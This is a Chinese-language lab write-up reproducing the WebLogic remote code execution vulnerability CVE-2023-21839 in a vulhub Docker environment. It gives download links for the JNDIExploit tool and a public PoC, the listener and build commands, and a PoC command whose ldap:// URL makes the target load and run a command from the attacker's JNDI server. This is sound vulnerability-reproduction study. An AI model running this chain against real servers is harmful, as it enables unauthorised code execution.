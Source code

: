# 2x10 漏洞复现——Weblogic 远程代码执行漏洞(CVE-2023-21839) 

## 一、环境搭建

1. 使用vulhub搭建
2. windows系统下使用docker desktop配置docker环境
3. 进入vulhub目录下的weblogic/CVE-2023-21839目录，docker启动环境
	```shell
	docker-compose up -d
	```
	![1.png](./img/weblogic/CVE-2023-21839/1.png)
4. 随后访问http://IP:7001/console，进入如下界面
	![2.png](./img/weblogic/CVE-2023-21839/2.png)
# 二、漏洞复现
1. 先下载[JNDIExploit利用工具](https://github.com/WhiteHSBG/JNDIExploit/releases/download/v1.4/JNDIExploit.v1.4.zip)，在本地开启JDNI监听
	```java
	java -jar JNDIExploit-1.4-SNAPSHOT.jar -i IP
	```
2. 下载[POC](https://github.com/4ra1n/CVE-2023-21839)，到poc的cmd目录下执行编译命令将POC编译为二进制可执行文件
	```go
	cd cmd
	go build -o CVE-2023-21839.exe
	```
3. 使用POC执行命令whoami
	```shell
	CVE-2023-21839.exe -ip IP -port 7001 -ldap ldap://IP:1389/Basic/Command/whoami
	```
4. 如下，成功回显用户名
	![3.png](./img/weblogic/CVE-2023-21839/3.png)

